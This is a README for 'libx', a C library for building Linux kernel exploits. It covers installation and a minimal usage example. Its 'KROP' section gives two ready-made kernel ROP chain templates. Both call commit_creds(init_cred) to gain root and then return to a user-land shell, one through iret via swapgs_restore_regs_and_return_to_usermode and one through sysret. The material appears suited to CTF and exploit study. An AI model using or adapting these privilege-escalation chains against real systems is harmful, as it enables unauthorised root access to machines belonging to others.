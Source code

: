 # libx

It's a personal c language library for kernel exploits. 

# Dependencies

```sh
# If you use fuse
sudo apt install fuse libfuse-dev libkeyutils-dev
```

# Usage

Install `libx`
```bash
git clone git@github.com:n132/libx.git
cd libx
make && sudo make install
```


uninstall `libx`

```bash
make clean
make uninstall
```
# musl (optional)
```bash
make musl && sudo make install-musl
```
# Example

```c
//gcc main.c -o ./main -lx -w
#include <libx.h>
int main(){
    libxInit();
}
```

# KROP

In kernel ROP, we usually return to user land by `iret` or `sysret`.

## iret
```c
    p[idx++]  = rdi;
    p[idx++]  = init_cred                   - NO_ASLR_BASE + base;
    p[idx++]  = commit_creds                - NO_ASLR_BASE + base;
    p[idx++]  = swapgs_restore_regs_and_return_to_usermode + 103 - NO_ASLR_BASE + base;
    p[idx++]  = *(size_t*) "RDI";
    p[idx++]  = *(size_t*) "RAX";
    p[idx++]  = shell;
    p[idx++]  = user_cs;
    p[idx++]  = user_rflags;
    p[idx++]  = user_sp|8;
    p[idx++]  = user_ss;
```
## sysret
```c
    p[idx++]  = rdi;
    p[idx++]  = init_cred                   - NO_ASLR_BASE + base;
    p[idx++]  = commit_creds                - NO_ASLR_BASE + base;
    p[idx++]  = r11;
    p[idx++]  = user_rflags;
    p[idx++]  = rcx;
    p[idx++]  = shell;
    p[idx++]  = sysret; // pop rsp; swapgs; sysret
    p[idx++]  = user_sp|8;
```



